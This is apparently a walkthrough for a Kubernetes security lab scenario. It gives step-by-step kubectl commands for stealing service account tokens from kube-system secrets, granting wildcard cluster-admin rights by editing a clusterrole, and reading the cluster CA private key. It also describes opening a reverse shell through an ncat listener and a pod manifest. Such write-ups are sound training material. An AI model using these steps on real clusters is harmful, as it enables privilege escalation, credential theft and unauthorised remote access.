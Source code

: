 # SSH to Get Secrets
This scenario begins with ssh access to a pod. The ssh credentials can be found in the scenario setup.

There are a couple of ways you can approach this one. First up (for either approach) we get secrets
1. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
2. `kubectl get secrets -n kube-system` will work and give you a list of available secrets

Now the question is, which secret to use. The first option might be the clusterrole-aggregation-controller, which needs steps that look like this.

3. This will give you the clusterrole-aggregation-controller token `kubectl -n kube-system get secret clusterrole-aggregation-controller-token-[RAND] -o json`
4. base64 deocde the token field
5. Use the token as part of a kubectl command  `kubectl --as test --as=group=system:masters --token="[TOKEN]" get clusterroles` to confirm it's working
6. Edit the service account for the token you're using (weird but this particular service account token has the "escalate" permission which lets you do this) `kubectl edit clusterrole system:controller:clusterrole-aggregation-controller`

Add the following lines in the "rules" section

```yaml
- apiGroups:
  - '*'
  resources:
  - '*'
  verbs:
  - '*'
```

7. Now you're a `cluster-admin` :)
8. get the API server pod name `kubectl --token="[TOKEN]" -n kube-system get pods`
9. get the key `kubectl --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`

Here's another way of doing it, as some service accounts have got `create pods`

3. This will give you the replicaset-controller token `kubectl -n kube-system get secret system:controller:replicaset-controller-[RAND] -o json`
4. base64 deocde the token field
5. Start a new shell and exec into the client machine, then start an ncat listener on the client machine `ncat -l -p 8989`
6. run the pod `ncat-reverse-shell-pod.yml` on the target host, remembering to modify the target IP address to that of the client machine.
7. This should create a shell for you to access which has the pki directory mounted in `/pki`
